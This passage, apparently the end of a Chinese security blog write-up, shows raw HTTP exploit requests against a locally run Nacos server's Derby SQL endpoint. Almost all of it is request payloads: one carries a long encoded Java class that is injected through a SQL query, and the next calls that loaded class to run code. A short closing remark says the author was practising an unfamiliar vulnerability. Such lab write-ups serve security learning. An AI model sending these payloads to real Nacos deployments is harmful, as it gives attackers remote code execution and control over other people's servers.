QAcWQMSslMEvQAEWQMqtgERU7gA%2FFenACE6By0TAUAEvQAcWQMSHFMEvQAEWQMstgBCU7gA%2FFcrEwFCBL0AHFkDLbYAQlMEvQAEWQMtU7gA%2FFcZBBMBPgS9ABxZAxKyUwS9AARZAyq2ARFTuAD8VxkEEwFEBL0AHFkDErJTBL0ABFkDKrYAkFO4APxXpwAiOggZBBMBRgS9ABxZAxKyUwS9AARZAyq2AJBTuAD8VysTAUgBAbgA%2FMAAOMAAODoIGQUZCL4EYLgBTcAAOMAAODoJGQkDGQRTGQgDGQkEGQi%2BuAFRKxMBUxkJuAFXpwAUOgorEwFTuAC8EwFZGQm4AVcZBhMBW7YBFLYBXwMyOgoZCgS2AWIZCgW9AARZAytTWQQtU7YBZToLKxMBZ7gAvMAAqDoMGQwqtgERGQu5AWsDAFexAAQAKABFAEgAGACDAJ8AogAYAPgBFQEYABgBbAF1AXgAGAABAcAAAABrAAkf%2FwAoAAcHAAIHAAQHAAQAAAAHAQsAAQcAGP8AHgAHBwACBwAEBwAEBwAEBwAEBwAcBwELAAB6BwAYHfcAVwcAGB7%2FAEAACgcAAgcABAcABAcABAcABAcAHAcBCwAHADgHADgAAQcAGBABwQAAAAQAAQAYAAEAZgAKAAEBvwAAABAAAQABAAAABLIAW7AAAAAAAAkBFwEYAAIBvwAAAJEABgADAAAAbxMBbbgAIEwrEwFvA70AHLYANgEDvQAEtgA%2BTSy2AEITAXEEvQAcWQMSslO2ADYsBL0ABFkDKlO2AD7AASLAASKwTRMBc7gAIEwrEwF1BL0AHFkDErJTtgA2K7YBMAS9AARZAypTtgA%2BwAEiwAEisAABAAAAQABBABgAAQHAAAAACAAB9wBBBwAYAcEAAAAEAAEAGAAJARsBHAACAb8AAAC%2FAAUABwAAAFy7AXlZtwF6TAFNuwF8WbsBflkqtwGBtwGETREQALwITiwttgGIWTYEngAOKy0DFQS2AYyn%2F%2B0rtgGQOgUsxgAHLLYBkyu2AZQZBbA6BizGAAcstgGTK7YBlBkGvwACAAoAPABLAAAASwBNAEsAAAABAcAAAABBAAX%2BACAHAXkHAXwHASL8ABUB%2FAANBwEi%2FwAGAAMHASIHAXkHAXwAAQcAFv8ACQAHBwEiBwF5BwF8AAAABwAWAAABwQAAAAQAAQF3AAkA%2BQD6AAMBvwAAANsABAAHAAAAhirBAByZAAoqwAAcpwAHKrYAQjoEAToFGQTGADMZBccALizHABIZBCsDvQActgEoOgWnAAwZBCsstgEoOgWn%2F9o6BhkEtgGaOgSn%2F84ZBccAH7sBl1m7AFhZtwBZEwGctgBfK7YAX7YAaLcBn78ZBQS2ASkZBSrBAByZAAcBpwAEKi22AD6wAAEAIQA9AEABlwABAcAAAAA7AAoOQwcAHP0ABAcAHAcAOhwIQgcBlwsgUgcAOv8AAAAGBwAEBwCyBwGhBwA4BwAcBwA6AAIHADoHAAQBwQAAAAQAAQAYAcIAAAACAZUACQGiAaMAAgG%2FAAAAZwAEAAQAAABAKrYAQk0sEgSlABIsK7YAJrBOLLYBmk2n%2F%2B67AaVZuwBYWbcAWSq2AEK2AOu2AF8TAam2AF8rtgBftgBotwGqvwABAAsAEAARAaUAAQHAAAAADQAD%2FAAFBwAcSwcBpQgBwQAAAAYAAgGlAacACQC5ALoAAgG%2FAAAAHQACAAMAAAARKiu4AaxNLAS2ACwsKrYAMLAAAAAAAcEAAAAGAAIBpQGnAAkBVAFVAAIBvwAAAB4AAwAEAAAAEioruAGsTi0EtgAsLSostgGvsQAAAAABwQAAAAQAAQAYAAIAYgBjAAEBvwAAAIEAAwAGAAAANgFNuwF5WbcBek67AbFZLbcBtE0rLLYBuC22Abk6BCzGAAcstgG6GQSwOgUsxgAHLLYBuhkFvwACAAIAHgApAAAAKQArACkAAAABAcAAAAApAAP%2BACYHAbEHAXkHALL%2FAAIAAwcAAgcAFgcBsQABBwAW%2FgAJAAAHABYACAG7ABQAAQG%2FAAAANgACAAAAAAAfpwARABMBvbMAWwOzAFKnAAcAp%2F%2FxALsAAlm3Ab5XsQAAAAEBwAAAAAUAAwMNAwAA%27%29%2Cg%28%29%2Cnull%2Cn%28%27org.springframework.boot.loader.Launcher%27%29%29+as+a+from+config_info+%2F%2Alimit%2A%2F HTTP/1.1
Host: 127.0.0.1:8849
Sec-Fetch-Mode: navigate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cache-Control: max-age=0
Sec-Fetch-Site: same-origin
sec-ch-ua-mobile: ?0
If-Modified-Since: Wed, 03 Apr 2024 06:25:07 GMT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/jxl,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Upgrade-Insecure-Requests: 1
sec-ch-ua-platform: "macOS"
Sec-Fetch-User: ?1
Cookie: lang=zh-CN; flavor_uv=1; grafana_session=0819560c9c23861c1372c45faded2e95; XSRF-TOKEN=60076405-84b6-42e3-b669-aaada2d50fc8; JSESSIONID=A346858F7C26752E1DC85C37A3276B40; java-chains-token-key=admin_token
sec-ch-ua: "Not:A-Brand";v="8", "Chromium";v="156", "Google Chrome";v="156"
Accept-Encoding: gzip, deflate, br, zstd


```




```http
GET /nacos/v1/cs/ops/derby?sql=select+count%28%2A%29+as+b%2C+n%28%27org.springframework.boot.loader.TimeZoneSerializer9c2b6d1b8f654d5d83941e25cfc457d6%27%29+as+a+from+config_info+%2F%2Alimit%2A%2F HTTP/1.1
Host: 127.0.0.1:8849
Sec-Fetch-Mode: navigate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cache-Control: max-age=0
Sec-Fetch-Site: same-origin
sec-ch-ua-mobile: ?0
If-Modified-Since: Wed, 03 Apr 2024 06:25:07 GMT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/jxl,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Upgrade-Insecure-Requests: 1
sec-ch-ua-platform: "macOS"
Sec-Fetch-User: ?1
Cookie: lang=zh-CN; flavor_uv=1; grafana_session=0819560c9c23861c1372c45faded2e95; XSRF-TOKEN=60076405-84b6-42e3-b669-aaada2d50fc8; JSESSIONID=A346858F7C26752E1DC85C37A3276B40; java-chains-token-key=admin_token
sec-ch-ua: "Not:A-Brand";v="8", "Chromium";v="156", "Google Chrome";v="156"
Accept-Encoding: gzip, deflate, br, zstd


```



## 小结

之前没打过这个漏洞，当做是学习一下。